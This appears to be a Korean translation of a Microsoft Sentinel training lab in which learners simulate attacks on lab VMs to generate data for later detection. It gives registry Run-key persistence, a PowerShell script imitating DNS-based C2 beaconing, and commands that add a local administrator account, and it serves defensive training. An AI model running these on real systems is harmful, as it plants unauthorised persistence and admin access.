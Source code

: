 ```yaml
---
lab:
  title: 연습 5 - 공격 수행
  module: Module 7 - Create detections and perform investigations using Microsoft Sentinel
ms.openlocfilehash: ff595199e034f5779ecd1c982609858a6c677a87
ms.sourcegitcommit: a90325f86a3497319b3dc15ccf49e0396c4bf749
ms.translationtype: HT
ms.contentlocale: ko-KR
ms.lasthandoff: 04/07/2022
ms.locfileid: "141493844"
---
```

# <a name="module-7---lab-1---exercise-5---conduct-attacks"></a>모듈 7 - 랩 1 - 연습 5 - 공격 수행

## <a name="lab-scenario"></a>랩 시나리오

![랩 개요입니다.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)

나중에 Microsoft Sentinel에서 검색하고 조사하는 데 사용할 공격을 시뮬레이션하려고 합니다.


### <a name="task-1-attack-windows-configured-with-defender-for-endpoint"></a>작업 1: 엔드포인트용 Defender를 사용하여 구성된 Windows 공격

이 작업에서는 엔드포인트용 Microsoft Defender가 구성되어 있는 호스트에서 공격을 수행합니다.

1. WIN1 가상 머신에 Admin으로 로그인합니다. 암호로는 **Pa55w.rd** 를 사용하여 로그인합니다.  

1. 작업 표시줄의 검색 창에 *명령* 을 입력합니다. 검색 결과에 명령 프롬프트가 표시됩니다. 명령 프롬프트를 마우스 오른쪽 단추로 클릭하고 **관리자 권한으로 실행** 을 선택합니다. 표시되는 사용자 계정 컨트롤 창에서 **예** 를 선택하여 앱을 실행할 수 있도록 합니다.

1. 명령 프롬프트에서 루트 디렉터리에 Temp 폴더를 만듭니다. 마지막 행 후에 Enter 키를 눌러야 합니다.

    ```CommandPrompt
    cd \
    mkdir temp
    cd temp
    ```

#### <a name="attack-1---persistence-with-registry-key-add"></a>공격 1 - 레지스트리 키 추가를 통한 지속성

1. 이 명령을 복사하고 실행하여 프로그램 지속성을 시뮬레이션합니다.

    ```CommandPrompt
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

#### <a name="attack-3---dns--c2"></a>공격 3 - DNS/C2 

1. 이 명령을 복사하고 실행하여 C2 서버에 대한 DNS 쿼리를 시뮬레이션하는 스크립트를 만듭니다.

    ```CommandPrompt
    notepad c2.ps1
    ```

1. **예** 를 선택하여 새 파일을 만든 후 아래 PowerShell 스크립트를 *c2.ps1* 에 복사합니다.

    >**참고:** 가상 머신에 스크립트를 붙여넣을 때는 길이가 제한될 수 있습니다. *c2.ps1* 파일 내에서 스크립트가 여기에 나와 있는 지침과 동일하게 표시되는지 확인합니다.

    ```PowerShell
    param(
        [string]$Domain = "microsoft.com",
        [string]$Subdomain = "subdomain",
        [string]$Sub2domain = "sub2domain",
        [string]$Sub3domain = "sub3domain",
        [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
    )
    $RunStart = Get-Date
    $RunEnd = $RunStart.addminutes($RunTime)
    $x2 = 1
    $x3 = 1 
    Do {
        $TimeNow = Get-Date
        Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        if ($x2 -eq 3 )
        {
            Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
            $x2 = 1
        }
        else
        {
            $x2 = $x2 + 1
        }    
        if ($x3 -eq 7 )
        {
            Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
            $x3 = 1
        }
        else
        {
            $x3 = $x3 + 1
        }
        $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
        Start-Sleep -Seconds $Jitter
    }
    Until ($TimeNow -ge $RunEnd)
    ```

1. 메모장 메뉴에서 **파일**, **저장** 을 차례로 선택합니다. 

1. 명령 프롬프트 창으로 돌아가서 다음 명령을 입력하고 Enter 키를 누릅니다. 

    >**참고:** 새 PowerShell 창이 열리고 오류 해결이 표시됩니다. 예상된 동작입니다.

    ```CommandPrompt
    Start PowerShell.exe -file c2.ps1
    ```

>**중요:** 이 창을 닫지 마세요. 이 PowerShell 스크립트를 백그라운드에서 실행하겠습니다. 명령이 몇 시간 동안 로그 항목을 생성해야 합니다. 이 스크립트가 실행되는 동안 다음 작업과 다음 연습을 진행해도 됩니다. 이 작업에서 생성되는 데이터를 나중에 위협 헌팅 랩에서 사용합니다. 이 프로세스에서 대량의 데이터가 작성되거나 처리되지는 않습니다.


### <a name="task-2-attack-windows-configured-with-sysmon"></a>작업 2: Sysmon을 사용하여 구성된 Windows 공격

이 작업에서는 보안 이벤트 커넥터와 Sysmon이 구성되어 있는 호스트에서 공격을 수행합니다.

>**중요:** 다음 단계는 이전에 작업한 컴퓨터와는 다른 컴퓨터에서 수행합니다. 가상 머신 이름 참조를 찾습니다.

1. WIN2 가상 머신에 Admin으로 로그인합니다. 암호로는 **Pa55w.rd** 를 사용하여 로그인합니다.  

1. 작업 표시줄의 검색 창에 *명령* 을 입력합니다. 검색 결과에 명령 프롬프트가 표시됩니다. 명령 프롬프트를 마우스 오른쪽 단추로 클릭하고 **관리자 권한으로 실행** 을 선택합니다. 표시되는 사용자 계정 컨트롤 창에서 **예** 를 선택하여 앱을 실행할 수 있도록 합니다. **힌트:** 이전 연습에서 관리자 권한으로 명령 프롬프트가 열려 있을 수 있습니다.

1. 명령 프롬프트에서 루트 디렉터리에 Temp 폴더를 만듭니다. 마지막 행 후에 Enter 키를 눌러야 합니다.

    ```CommandPrompt
    cd \
    mkdir temp
    cd \temp
    ```

#### <a name="attack-1---persistence-with-registry-key-add"></a>공격 1 - 레지스트리 키 추가를 통한 지속성

1. 이 명령을 복사하고 실행하여 프로그램 지속성을 시뮬레이션합니다.

    ```CommandPrompt
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

>**참고:** WIN1과 동일한 지속성 전술을 사용하지만 다음 연습에서는 다른 검색을 사용합니다.

#### <a name="attack-2---user-add-and-elevate-privilege"></a>공격 2 - 사용자 추가 및 권한 상승

1. 이 명령을 복사하고 실행하여 관리자 계정 만들기를 시뮬레이션합니다. 마지막 행 후에 Enter 키를 눌러야 합니다.

    ```CommandPrompt
    net user theusernametoadd /add
    net user theusernametoadd ThePassword1!
    net localgroup administrators theusernametoadd /add
    ```

## <a name="proceed-to-exercise-6"></a>연습 6 계속 진행
